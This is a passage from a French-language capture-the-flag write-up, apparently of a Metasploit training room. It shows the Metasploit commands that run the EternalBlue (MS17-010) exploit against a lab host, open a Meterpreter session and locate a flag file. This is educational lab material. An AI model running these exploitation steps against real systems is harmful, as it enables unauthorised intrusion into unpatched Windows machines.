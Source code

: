 ```bash
msf6 > use auxiliary/scanner/smtp/smtp_relay
msf6 auxiliary(scanner/smtp/smtp_relay) > info
```
{: .nolineno }

L'auteur du module apparaît dans les métadonnées.

**Réponse :** `Campbell Murray`

---

### Task 5 - Exploitation

#### Exploitation d'EternalBlue

Cette section couvre l'exploitation de la vulnérabilité MS17-010 (EternalBlue) sur une machine Windows.

**Configuration et lancement de l'exploit :**

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.X.X
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```
{: .nolineno }

Une fois l'exploitation réussie, une session Meterpreter s'ouvre automatiquement.

> Meterpreter est un payload avancé qui fournit une interface interactive pour la post-exploitation du système compromis.
{: .prompt-tip }

---

#### Questions et résolutions

**Question 1 : What is the content of the flag.txt file?**

Après avoir obtenu une session Meterpreter, je me suis positionné à la racine du système.

```bash
meterpreter > cd /
```
{: .nolineno }

Ensuite, j'ai recherché le fichier flag.txt sur l'ensemble du système :

```bash
meterpreter > search -f flag.txt
```
{: .nolineno }

**Résultat :**

```
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\Jon\Documents\flag.txt  15            2021-07-15 03:39:25 +0100
```
{: .nolineno }
